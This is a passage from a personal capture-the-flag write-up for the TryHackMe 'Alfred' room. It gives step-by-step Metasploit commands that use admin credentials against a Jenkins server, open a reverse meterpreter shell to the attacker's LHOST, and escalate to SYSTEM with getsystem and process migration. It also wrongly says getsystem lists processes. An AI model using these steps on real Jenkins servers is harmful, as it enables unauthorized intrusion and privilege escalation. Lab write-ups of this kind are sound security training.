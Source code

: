 So here is my path to Pwnage!

1\. Open metasploit from your linux command line.

`msfconsole`

2\. `search jenkins` from the msfconsole command line

3\. Since we have Jenkins credentials, `use 9`  
<img src="file://C:/Users/system%20admins/.config/joplin-desktop/resources/a8ae7e96dd354ce69e618559eaef7bbc.png?t=1601658764940" alt="cd1a65e304cdccbe1e9241ef18f5b176.png" width="879" height="418" class="jop-noMdConv">set RPORT

4\. Enter the following commands one by one in the msf prompt, as seen below.

- `set PASSWORD admin`
    
- `set USERNAME adminrun`
    
- `set RHOSTS <ip>` , where ipis the tryhackme IP address of the Alfred room you deployed.
    
- `set RPORT 8080`  from the nmap scan.
    
- use the command `set TARGETURI / `  because Jenkins is in the root directory on the webserver.
    
- `set LHOST <ip>`  this is your computers IP via the thm openvpn certificate, do an `ip -br a` command in a linux terminal to list your computers IP addresses.  It is usually the tun0 address.
    
- `set LPORT 4444` , it is usually defaluted to that port.  You can use whatever port you like, just not the known ports.run
    
-   
    <img src="file://C:/Users/system%20admins/.config/joplin-desktop/resources/fe4425db59a74cff9e71ff877a637723.png?t=1601660815466" alt="2f5462537591346847b1afeceadd2649.png" width="879" height="476" class="jop-noMdConv">options
    
- now type `run` or `exploit`
    

<img src="file://C:/Users/system%20admins/.config/joplin-desktop/resources/f2325e33269e464783442a58b5d7ed60.png?t=1601664169892" alt="29e5da45a2d60f617ed1175ad51a2843.png" width="898" height="362" class="jop-noMdConv">

***Home sweet home, a meterpreter shell!***

* * *

### Step four: Be Admin

* * *

Lets migrate so we can traverse all directories as admin.

At the meterpreter prompt, enter the getsystem command to list all running processes by name.

<img src="file://C:/Users/system%20admins/.config/joplin-desktop/resources/18076d61e83e49b8bc2ba26f1f55d1ad.png?t=1601664759531" alt="0ff54a951b799f53c9b811b80042f413.png" width="914" height="482" class="jop-noMdConv">

Next, let's migrate to any NT AUTHORITY\\SYSTEM account by entering `migrate <svc number>`, I tend to choose winlogin.exe or spoolsv.exe personally, but it doesnt really matter.

`migrate 608`

![cc0f2099a4f1571df8d686f9b37c14c5.png](file://C:/Users/system%20admins/.config/joplin-desktop/resources/e149dc4822094fdab2bd4696de290b83.png?t=1601664867090)

* * *
